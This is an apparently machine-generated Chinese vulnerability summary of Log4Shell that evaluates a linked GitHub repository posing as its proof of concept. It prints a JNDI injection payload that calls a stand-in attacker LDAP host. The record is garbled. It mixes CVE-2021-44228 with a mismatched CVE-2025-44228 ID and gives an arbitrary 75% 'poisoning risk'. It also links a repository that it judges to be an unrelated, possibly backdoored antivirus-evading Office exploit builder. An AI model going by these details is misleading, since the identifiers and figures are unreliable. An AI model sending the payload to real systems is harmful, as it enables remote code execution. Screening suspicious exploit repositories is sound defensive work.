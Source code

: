 ## CVE-2021-44228 - Apache Log4j2 Log4Shell RCE

**漏洞编号:** CVE-2025-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 2.0-beta9 到 2.14.1

**利用条件:** 应用程序使用受影响版本的 Log4j2 并允许外部输入记录到日志中

**POC 可用性:** 是

**投毒风险:** 75%

## 详情

根据搜索引擎结果，CVE-2021-44228（Log4Shell）是一个 Apache Log4j 2 中的严重远程代码执行漏洞。攻击者可以通过构造特殊的字符串，利用 JNDI 注入来执行任意代码。漏洞影响 Log4j 2.0-beta9 到 2.14.1 版本。利用方式通常是向服务器发送包含恶意 JNDI 查找的日志消息，例如 `${jndi:ldap://attacker.com/evil}`。当 Log4j 尝试记录此消息时，它会连接到攻击者的 LDAP 服务器，并执行攻击者提供的恶意代码。

**漏洞利用代码分析：**
提供的漏洞利用代码与Log4Shell (CVE-2021-44228) 无关。提供的代码是关于利用Microsoft Office宏漏洞，一个构建Office宏漏洞的工具，并声称能够绕过杀毒软件和沙盒检测。

**有效性评估：**
提供的漏洞利用代码与CVE-2021-44228无关,无法验证CVE-2021-44228漏洞。

**投毒风险评估：**
虽然提供的仓库本身不是针对Log4Shell的POC，但是该仓库声称能够构建绕过反病毒软件的Office漏洞利用程序，因此存在高度的投毒风险。该代码可能包含隐藏的后门或恶意功能，如收集用户信息、安装恶意软件或进行其他未经授权的操作。由于该工具专注于规避安全检测，因此恶意代码更难以被发现。此风险占比非常高，估计在75%左右。

**利用方式总结：**
该漏洞的利用方式是，攻击者构建恶意的Office文档，诱使用户打开，从而在用户系统上执行恶意代码。


**项目地址:** [Kramozon/Office-Exploit-Cve2025-Xml-Doc-Docx-Rce-Builder-Fud](https://github.com/Kramozon/Office-Exploit-Cve2025-Xml-Doc-Docx-Rce-Builder-Fud)

**漏洞详情:** [CVE-2025-44228](https://nvd.nist.gov/vuln/detail/CVE-2025-44228)